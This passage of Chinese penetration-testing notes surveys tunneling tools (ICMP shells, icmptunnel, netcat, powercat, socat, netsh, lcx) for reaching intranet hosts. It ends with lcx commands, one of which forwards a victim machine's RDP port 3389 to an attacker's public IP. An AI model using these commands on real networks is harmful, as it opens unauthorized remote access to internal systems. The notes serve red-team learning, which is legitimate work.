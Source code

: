能通过 ICMP 协议反弹 cmd，功能单一，反弹回来的 cmd 极不稳定，不推荐使用。可参考：https://www.freebuf.com/news/210450.html

##### icmptunnel

https://github.com/DhavalKapil/icmptunnel

创建虚拟网卡通过 ICMP 协议传输网卡流量，基于 ICMP 隧道的 vpn，需要 root 权限，动静极大，不推荐使用

### 2.1 传输层隧道工具

#### (1) 使用场景

- 内网 IP 无法直接访问

- 只有特定端口出网

#### (2) 传输层隧道工具

##### netcat

官网：https://eternallybored.org/misc/netcat/

##### powercat

powershell 版的 netcat

github：https://github.com/besimorhino/powercat

##### socat

具有记录转发流的功能，方便查看转发内容，需要安装

github：https://github.com/erluko/socat

##### netsh

windows 系统自带的网络配置工具

官网：https://docs.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-contexts

##### lcx

github：https://github.com/windworst/LCX

下面是几条常用命令记录：

```shell
# 将lcx.exe上传到受害者主机上（内网机器192.168.1.123），将其3389端口转发到一个公网IP的8080端口。
lcx.exe -slave 11.11.11.11 8080 192.168.1.123 3389
# 将本机端口8080上监听的所有数据转发到本机9000上
lcx.exe -listen 8080 9000
# 此时攻击者访问127.0.0.1:9000即可访问到内网的远程桌面，从而突破了内网私有ip的限制。

# 将本机端口9000上监听的所有数据转发到192.168.1.123的8080。跳板机上执行一下，可以直接访问到内网的对应站点了
lcx.exe -tran 9000 192.168.1.123 8080
```

##### NATBypass
